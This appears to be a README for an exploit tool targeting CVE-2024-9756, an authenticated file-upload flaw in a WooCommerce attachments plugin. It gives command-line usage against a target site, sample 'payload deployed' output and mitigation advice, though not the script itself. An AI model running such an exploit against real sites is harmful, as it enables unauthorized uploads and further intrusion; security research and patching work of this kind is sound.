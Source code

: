 # 🚀 WooCommerce Arbitrary File Upload Exploit (CVE-2024-9756)

## 📌 Overview
This exploit leverages an **unauthorized limited arbitrary file upload vulnerability** in the *Order Attachments for WooCommerce* plugin (versions **2.0 to 2.4.1**) for WordPress.  
The vulnerability allows **authenticated users (Subscriber+)** to upload restricted file types without proper authorization.

### ⚠️ Disclaimer
> **This script is for educational and security research purposes only.**
> Any unauthorized use of this exploit on systems you do not own is strictly illegal.

---

## 🔗 CVE Details
- **CVE ID:** CVE-2024-9756
- **Vulnerable Plugin:** Order Attachments for WooCommerce
- **Affected Versions:** 2.0 to 2.4.1
- **Vulnerability Type:** **Missing Authorization to Authenticated Arbitrary File Upload**
- **Exploitation Prerequisite:** *Valid WordPress login with at least "Subscriber" role*
- **Potential Impact:** Limited file uploads that can be used for further exploitation.

---

## ⚙️ Requirements
Ensure you have the following before running the exploit:

### ✅ Dependencies
- Python 3.x  
- `requests` module → Install with:
  ```sh
  pip install requests
  ```
- Target WordPress site with the vulnerable plugin installed.

### ✅ WordPress User Permissions
- Requires **Subscriber+** access to exploit.

---

## 🚀 Exploit Usage
### **🔹 Running the Exploit**
```sh
python3 CVE-2024-9756.py -u <TARGET_URL> -un <USERNAME> -p <PASSWORD>
```
**Example:**
```sh
python3 CVE-2024-9756.py -u http://192.168.100.74:888/wordpress4 -un khaled -p mypassword
```

---

## 🔧 Advanced Usage
You can specify **custom file names** and **order IDs**:

### **🔹 Upload a specific file**
```sh
python3 CVE-2024-9756.py -u <TARGET_URL> -un <USERNAME> -p <PASSWORD> --filename="custom.png" --filetype="image/png"
```

### **🔹 Attach file to a different Order ID**
```sh
python3 CVE-2024-9756.py -u <TARGET_URL> -un <USERNAME> -p <PASSWORD> -o 200
```

---

## 📌 Script Behavior
1. **Authenticates with WordPress** using the provided credentials.
2. **Verifies the file exists locally** before uploading.
3. **Executes the file upload exploit** via the vulnerable AJAX endpoint.
4. **Parses the server response** and extracts the uploaded file URL.

---

## ✅ Expected Output
If successful, the script will return the uploaded file URL:
```sh
[*] Initiating authentication...
[✔] Authentication successful.
[*] Deploying payload: Nxploit.jpg to order 196...
[✔] Payload successfully deployed!
🔗 File URL: http://192.168.100.74:888/wordpress4/wp-content/uploads/2025/03/Nxploit.jpg
```

---

## 🔥 Mitigation & Fixes
- **Upgrade the plugin** to the latest patched version.
- **Restrict file upload permissions** to Admins only.
- **Modify `functions.php`** to block `wp_ajax_wcoa_add_attachment` from unauthorized users:
  ```php
  if (!current_user_can('manage_woocommerce')) {
      wp_send_json_error(['message' => 'Unauthorized'], 403);
      exit;
  }
  ```

---

## 🛑 Legal Notice
> **This exploit is published for educational purposes and security research only.**  
> **Unauthorized use against systems without explicit permission is illegal and punishable under cybersecurity laws.**  
> **Use at your own risk.**  

---
